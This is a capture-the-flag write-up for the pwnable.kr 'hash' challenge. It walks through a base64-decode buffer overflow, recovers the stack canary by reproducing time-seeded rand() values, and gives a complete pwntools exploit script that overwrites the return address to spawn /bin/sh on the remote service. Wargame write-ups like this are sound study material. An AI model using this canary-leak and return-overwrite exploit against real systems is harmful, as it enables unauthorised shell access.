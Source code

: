 >We made a simple MD5 calculator as a network service.
>Find a bug and exploit it to get a shell.
>hint : this service shares the same machine with pwnable.kr web service

NO pie
## understanding the challenge
did it with dolev. 
## vulnerability
buff overflow with the `base64_decode(g_buff, s)` each base64 char is converted to 6 bits or 3/4 of a byte. because `g_buff` size is 1024 and s size is 512 we get an overflow.

### goal
find the canary

`my_hash` returns a combination of random numbers with a leaked canary value.
dolev said that you could get the rand values if you're fast enough because if the seed is the same we will get the same values.

## implementation
1. call rand through python with the seed of the same as test.c
2. get a basic program in python2 with remote, debug, local options
3. leak the canary & check it 
4. overflow the ret to 0x08049187 and put on the stack `g_buff+overflow_len` because after the overflow we will input `/bin/sh`

## calculating the overflow
each char is 3/4 byte 

the distance from the plaintext to ret is: `4 (ebp) + 4 (edi) + 4 (ebx) 4 (canary) + 512 (pt) = 528`, 
if we look at the offset from the stack frame it's 524 then add 4 for `ebp`  **528** OK

we need to overflow `ebp` to be `/bin/sh` and RA (`ebp` + 4) to be 0x08049187
532 bytes after decoding. so `532 = 3/4 * X` so x is 709.33 say 710 + `/bin/sh` lets check my idea it was 712 because it rounded 710 with two `=`.
#### canary location
after the `pt` we get the `canary` so 512 bytes 
so now `512*x canary 12*x + system + /bin/sh`

# writeups
```python
from pwn import *
import sys, base64
from ctypes import CDLL
from math import floor
import time

context.log_level = 'info'
libc = CDLL("libc.so.6")


CALL_SYSTEM = 0x08049187
G_BUFF = 0x0804B0E0

def conn():
    
    if len(sys.argv) == 1 or sys.argv[1] == 'local':
        return process('./hash')
    elif sys.argv[1] == 'remote':
        return remote('pwnable.kr', 9002)
    elif sys.argv[1] == 'debug':
        return gdb.debug('./hash', gdbscript='''
                        b *0x08048EE5
                        b *0x08049077
                        continue
                         ''')
    if len(sys.argv) != 2:
        raise Exception('deadbeef')
    
p = conn()
now = int(floor(time.time()))

p.recvuntil(b': ')
captcha = int(p.recvline().decode())
p.sendline(str(captcha).encode())
# gets the canary
# v4 - v6 + v7 + canary + v2 - v3 + v1 + v5 = captcha 
libc.srand(now)
rands = [libc.rand() for _ in range(8)]
canary = (captcha - rands[4] + rands[6] - rands[7] - rands[2] + rands[3] - rands[1] - rands[5]) % 2**32
log.success("found canary {:x}".format(canary))

# BOF
payload = base64.b64encode(b'X'*512 + p32(canary) + b'X'*12 + p32(CALL_SYSTEM) + p32(G_BUFF+717))
payload += b'\x00/bin/sh\x00'
p.sendlineafter(b'Encode your data with BASE64 then paste me!\n', payload)
p.interactive()
```
this was fun. other writeups did the same.

## learning
* I should keep my critical thinking flow.
* I should keep my pre calculating to understand better my attack 